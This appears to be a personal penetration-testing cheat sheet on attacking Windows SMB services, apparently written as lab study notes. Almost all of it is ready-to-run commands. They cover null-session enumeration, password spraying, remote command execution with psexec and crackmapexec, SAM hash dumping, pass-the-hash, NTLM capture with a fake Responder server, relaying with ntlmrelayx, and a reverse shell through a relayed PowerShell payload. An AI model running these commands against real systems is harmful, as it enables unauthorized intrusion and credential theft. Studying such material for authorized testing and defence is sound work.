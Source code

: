 ### Misconfigurations

No Auth = null session 
	Anonymous login
#SMBClient
```shell
smbclient -N -L //10.129.14.128
```
#SMBMap
```shell
smbmap -H 10.129.14.128
```
```shell
smbmap -H 10.129.14.128 -r notes
```
```shell
smbmap -H 10.129.14.128 --download "notes\note.txt"
```
```shell
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```

#### #RPC 
Take advantage of null sessions 
Enumerate DC?
[cheat sheet](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf)
```shell-session
rpcclient -U'%' 10.10.110.17
```

```shell
/enum4linux-ng.py 10.10.11.45 -A -C
```

### Password spray / #bruteforce 

```shell-session
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```

### #RCE
```shell
impacket-psexec -h (<impacket-psexec administrator:'Password123!'@10.10.110.17>)
```

```shell
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

#### Logged on Users

```shell
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

#### Extracting SAM Hashes 

```shell
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

#### #PtH

```shell
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

### Forced Authentication Attacks 
Fake SMB Server to capture NTLM v1/2 hashes

```shell
responder -I <interface name>
```
crack creds on hashcat/john

Saved hashes will go to 
`/usr/share/responder/logs/`)

### Relay hash to [ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)/ [multirelay](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py)
Set #SMB to of in responder 
```shell
cat /etc/responder/Responder.conf | grep 'SMB ='
```

Execute ntlmrelayx
```shell
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```
Will dump SAM database,
execute commands with -c 

### Reverse shell
```shell
mpacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c <powershell base 64>
```
Need client to connect to SMB share 

## Recent Vulns
[SMBGhost](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796)
windows 10 1903 and 1909
Allows RE 

